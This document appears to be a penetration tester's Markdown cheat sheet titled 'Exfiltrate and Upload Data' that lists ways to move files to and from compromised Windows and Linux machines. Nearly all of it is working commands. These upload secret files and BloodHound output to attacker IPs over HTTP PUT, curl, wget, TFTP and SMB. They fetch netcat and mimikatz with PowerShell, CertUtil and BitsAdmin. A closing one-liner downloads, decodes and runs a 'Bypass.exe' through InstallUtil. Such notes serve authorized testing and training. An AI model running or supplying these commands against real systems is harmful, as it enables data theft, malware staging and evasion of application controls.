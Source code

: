 ```yaml
---
layout: page
title: "Exfiltrate and Upload Data"
permalink: /exfiltrate_upload_data/
---
```


## Uploading data from a remote machine

### HTTP Upload / PUT server:

```powershell
#Download the HTTP PUT Server:
https://gist.github.com/fabiand/5628006

#Alternative
https://gist.github.com/codification/1393204
#Only For This Alternative - Change "server_address = ('localhost', port)" in the script to the actual listening IP like "server_address = ('10.10.14.2', port)"

#Start the server
sudo python HTTPutServer.py 80

#Powershell Upload:
$body = Get-Content 20210725041909_bloodhoundcyberlocal.zip
Invoke-RestMethod -Uri http://10.10.14.2:8080/20210725041909_bloodhoundcyberlocal.zip -Method PUT -Body $body

#Curl:
curl --upload-file secret.txt http://ip:port/

#Wget:
wget --method=PUT --post-file=secret.txt http://ip:port
```

### EXE 2 HEX:

Convert a EXE to HEX and reassable it on a Windows machine from the CMD prompt:

```bash
upx -9 nc.exe

exe2hex -x nc.exe -p nc.cmd

#Run the CMD file or its commands on the Windows machine.
```

### Upload file to HTTP uploader with Powershell:

```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

### Upload file with TFTP:

```bash
#Create a TFTP server on Kali
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp

#Upload a file to it:
tftp -i 10.11.0.4 put important.docx
```

### Upload file with VSFTPD FTP:

```bash
sudo apt install vsftpd
sudo nano /etc/vsftpd.conf
sudo service vsftpd start
sudo service vsftpd status
```

### Copy-Paste Base64 encoded file:

```bash
python -c 'print(__import__("base64").b64encode(open("file", "rb").read()))'

#Paste string in a textfile and unpack content:
%STRING% > output.txt
base64 -d output.txt > output-file
```

### Upload by using SMB:

```bash
#Start server:
sudo python3 smbserver.py jshare /home/jarno/Desktop -smb2support

#Upload files
xcopy bank-account.zip \\192.168.119.191\jshare

#Download files
copy \\192.168.119.191\jshare\mimikatz.exe c:\mimikatz.exe
```

## Downloading data on a remote machine

### Powershell 4+:

```powershell
Invoke-WebRequest "http://10.10.14.14:9999/nc64.exe" -OutFile "C:\Temp\nc.exe"

#OR with shorttag:

IVW "http://10.10.14.14:9999/nc64.exe" -OutFile "C:\Temp\nc.exe"

```

### Powershell (any version)

```bash
(New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")
```

### CertUtil:

```powershell
certutil.exe -urlcache  -f  http://10.10.14.14:9999/nc64.exe C:\\Windows\Temp\nc64.exe
```

Instead of transferring files with CertUtil we can also encode files:

```powershell
#Encode:
certutil -encode C:\Users\jarno\deskto\Bypass.exe enc.txt

#Decode:
certutil -decode enc.txt Bypass.exe
```

### SCP:

```bash
roy = username
./ = local current dir
scp roy@10.10.10.100://var/www/bucket-app/files/result.pdf ./
```

### Covenant:

```bash
#Covenant
https://github.com/cobbr/Covenant
#+Elite
https://github.com/cobbr/Elite
```

### BitsAdmin:

```powershell
#Encode (CertUtil)
certutil -encode C:\Users\jarno\deskto\Bypass.exe enc.txt

#Transfer - BitsAdmin:
bitsadmin /Transfer myJob http://192.168.178.178/enc.txt C:\Users\jarno\Desktop\enc.txt

#Oneliner (from perspective on attacker machine - from download to execution):
bitsadmin /Transfer myJob http://192.168.119.120/file.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile=/LogToConsole=false /U C:\users\student\Bypass.exe
```

## Other resources for exfiltration:

[https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65](https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65)
